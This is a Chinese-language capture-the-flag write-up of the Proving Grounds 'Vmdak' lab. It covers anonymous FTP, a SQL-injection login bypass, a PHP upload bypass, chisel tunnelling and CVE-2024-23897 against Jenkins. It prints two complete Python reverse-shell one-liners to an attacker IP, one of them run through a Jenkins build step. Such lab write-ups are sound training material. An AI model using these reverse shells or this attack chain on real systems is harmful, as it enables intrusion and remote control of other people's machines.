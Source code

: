 ```yaml
---
title: Proving Grounds Practice-Vmdak
date: 2025-7-29 20:00:00
tags: 红队
categories: 红队打靶-Linux
---
```


# 信息收集

## nmap

![image-20250729095009581](./Vmdak/image-20250729095009581.png)

## 21端口-ftp

21端口存在anonymous用户匿名认证，其中有一个config.xml文件

```xml
<?xml version='1.1' encoding='UTF-8'?>
<hudson>
  <disabledAdministrativeMonitors/>
  <version>2.401.2</version>
  <numExecutors>2</numExecutors>
  <mode>NORMAL</mode>
  <useSecurity>true</useSecurity>
  <authorizationStrategy class="hudson.security.FullControlOnceLoggedInAuthorizationStrategy">
    <denyAnonymousReadAccess>false</denyAnonymousReadAccess>
  </authorizationStrategy>
  <securityRealm class="hudson.security.HudsonPrivateSecurityRealm">
    <disableSignup>true</disableSignup>
    <enableCaptcha>false</enableCaptcha>
  </securityRealm>
  <disableRememberMe>false</disableRememberMe>
  <projectNamingStrategy class="jenkins.model.ProjectNamingStrategy$DefaultProjectNamingStrategy"/>
  <workspaceDir>${JENKINS_HOME}/workspace/${ITEM_FULL_NAME}</workspaceDir>
  <buildsDir>${ITEM_ROOTDIR}/builds</buildsDir>
  <jdks/>
  <viewsTabBar class="hudson.views.DefaultViewsTabBar"/>
  <myViewsTabBar class="hudson.views.DefaultMyViewsTabBar"/>
  <clouds/>
  <InitialRootPassword>/root/.jenkins/secrets/initialAdminPassword></InitialRootPassword>
  <scmCheckoutRetryCount>0</scmCheckoutRetryCount>
  <views>
    <hudson.model.AllView>
      <owner class="hudson" reference="../../.."/>
      <name>all</name>
      <filterExecutors>false</filterExecutors>
      <filterQueue>false</filterQueue>
      <properties class="hudson.model.View$PropertyList"/>
    </hudson.model.AllView>
  </views>
  <primaryView>all</primaryView>
  <slaveAgentPort>-1</slaveAgentPort>
  <label></label>
  <crumbIssuer class="hudson.security.csrf.DefaultCrumbIssuer">
    <excludeClientIPFromCrumb>false</excludeClientIPFromCrumb>
  </crumbIssuer>
  <nodeProperties/>
  <globalNodeProperties/>
  <nodeRenameMigrationNeeded>false</nodeRenameMigrationNeeded>
</hudson>

```

这是jenkins的配置文件，其中给出了版本号和密码文件位置`/root/.jenkins/secrets/initialAdminPassword`

并且开启了不可注册

## 9443端口

9443端口是一个监狱管理页面，上面jenkins是java语言的，这个网站是php开发的，所以上面的配置文件这里也用不到

![image-20250729105909357](./Vmdak/image-20250729105909357.png)

这个监狱管理系统存在sql注入漏洞，使用万能密码就可以绕过登录

[监狱管理系统 - SQL 注入认证绕过 - PHP webapps 漏洞利用 - 利用脚本 --- Prison Management System - SQL Injection Authentication Bypass - PHP webapps Exploit - 利用脚本](./https://prismby.com/exp_db/exploits/prison-management-system-sql-injection-authentication-bypass-php-webapps-exploit-r98136/)

![image-20250729110145103](./Vmdak/image-20250729110145103.png)

员工这个界面reason中给出了一个密码:`RonnyCache001`

![image-20250729110305164](./Vmdak/image-20250729110305164.png)

可以上传图片，尝试一下文件上传漏洞

![image-20250729112041871](./Vmdak/image-20250729112041871.png)

这里应该是只会检查`Content-type`,`content-type`是图片格式即可，修改文件后缀为php

![image-20250729112137609](./Vmdak/image-20250729112137609.png)

提交之后可以成功创建这个人员，在人员管理这个界面右键图片就可以复制图像的链接了

![image-20250729112305587](./Vmdak/image-20250729112305587.png)

然后访问图像就可以成功命令执行

![image-20250729112355024](./Vmdak/image-20250729112355024.png)

```python
python3 -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("192.168.45.164",80));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import pty; pty.spawn("/bin/bash")'
```

使用python的反向shell可以成功回弹

![image-20250729112549217](./Vmdak/image-20250729112549217.png)

# 提权

现在是www-data用户，home目录下还有vmdak用户，还记的上面找到一个员工的密码，尝试使用该密码切换到vmdak用户

![image-20250729112724311](./Vmdak/image-20250729112724311.png)

可以成功切换，就可以拿到local.txt

## 端口转发

本地开放了8080端口，并且访问后需要认证，上面给出的config.xml文件中的内容还没有使用过，先将8080端口转发到我们的攻击机

![image-20250729114202145](./Vmdak/image-20250729114202145.png)

试用chisel转发http请求，将8080转发到我们攻击机的9999端口

```
//攻击机运行
./chisel_1.10.1_linux_amd64 server -p 8888 --reverse
//受害机运行
./chisel_1.10.1_linux_amd64 client 192.168.45.164:8888 R:9999:127.0.0.1:8080
```

访问之后需要我们输入初始密码，但是初始密码是在root目录下的，我们访问不到

![image-20250729114746179](./Vmdak/image-20250729114746179.png)

config文件中给出了版本号，搜索`jenkins 2.401.2 exploit`，该版本存在任意文件读取漏洞导致远程代码执行

[godylockz/CVE-2024-23897: CVE-2024-23897 Jenkins 文件读取的 POC --- godylockz/CVE-2024-23897: POC for CVE-2024-23897 Jenkins File-Read](./https://github.com/godylockz/CVE-2024-23897)

![image-20250729142149461](./Vmdak/image-20250729142149461.png)

读取`/root/.jenkins/secrets/initialAdminPassword`,也可以读取`proof.txt`

![image-20250729142224209](./Vmdak/image-20250729142224209.png)

使用已经读取到的jenkins连接到jenkins的web端，然后随便创建一个用户

![image-20250729143432871](./Vmdak/image-20250729143432871.png)

创建新项目，在项目中执行shell命令

![image-20250729143518048](./Vmdak/image-20250729143518048.png)

![image-20250729143546544](./Vmdak/image-20250729143546544.png)

```
python3 -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("192.168.45.164",9443));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import pty; pty.spawn("/bin/sh")'
```

创建完成之后点击左侧的build Now，然后本地监听等待回弹就可以了

![image-20250729143348962](./Vmdak/image-20250729143348962.png)